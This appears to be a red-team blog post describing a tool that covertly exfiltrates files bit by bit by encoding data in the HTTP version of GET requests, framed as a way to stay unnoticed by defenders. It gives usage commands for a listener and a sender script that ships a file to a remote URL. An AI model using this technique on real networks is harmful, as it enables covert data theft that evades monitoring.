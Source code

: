 ```yaml
---
layout: post
title: Using the HTTP protocol version for exfiltration
excerpt_separator: <!--more-->
---
```



Use the HTTP protocol version to send a file bit by bit ("HTTP/1.0" is a 0 and "HTTP/1.1" is a 1). It uses GET requests so the Blue Team would only see the requests to your IP address.<!--more--> However, it takes a long time to send bigger files, for example it needs 1 hour to send 200 KB, and the amount of requests would be very high (8 times the number of bytes of the file).

![memillo](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/memillo.png)


## Create listener 

To run the listener use listener.py with one optional argument: the port it will be listening in.

```
python3 listener.py [PORT]
```

Example:

```
python3 listener.py 8080
```

## Send a file

To send a file use sender.py with two mandatory arguments: the file path and the url of the listener; and one optional argument: the name of the file created remotely (if not used, the name of the input file is used).

```
python3 sender.py -u URL -i INPUTFILE [-o OUTPUTFILE]
```

Example:

```
python3 sender.py -u "http://127.0.0.1:8080" -i test.txt -o updated_test.txt
```

---------------------------------------------------------------

## Example

First the file is sent:

![image1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image1.png)

If the variable debug is set to True (it is by default) you can see the binary values in the listener log messages:

![image2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image2.png)

The new file is created with the content of the input file:

![image3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image3.png)

---------------------------------------------------------------

## Motivation

I think (I am not sure) I read someone on Twitter who claimed to have used this to exfiltrate data and I liked the idea, if you are that person let me know.
